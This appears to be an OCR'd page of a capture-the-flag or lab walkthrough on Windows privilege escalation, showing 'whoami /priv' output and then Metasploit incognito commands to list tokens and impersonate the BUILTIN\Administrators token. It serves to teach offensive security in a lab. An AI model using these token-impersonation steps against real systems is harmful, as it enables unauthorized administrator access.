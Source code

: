 **View all the privileges using whoami /priv**

```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```

**You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability. Enter: load incognito to load the incognito module in metasploit. Please note, you may need to use the use incognito command if the previous command doesn't work. Also ensure that your metasploit is up to date.**

- ``load incognito``

**To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available. Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators token. What is the output when you run the getuid command?**

- ``list_tokens -g``

```
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT AUTHORITY\WRITE RESTRICTED
NT SERVICE\AppHostSvc
NT SERVICE\AudioEndpointBuilder
NT SERVICE\BFE
NT SERVICE\CertPropSvc
NT SERVICE\CscService
```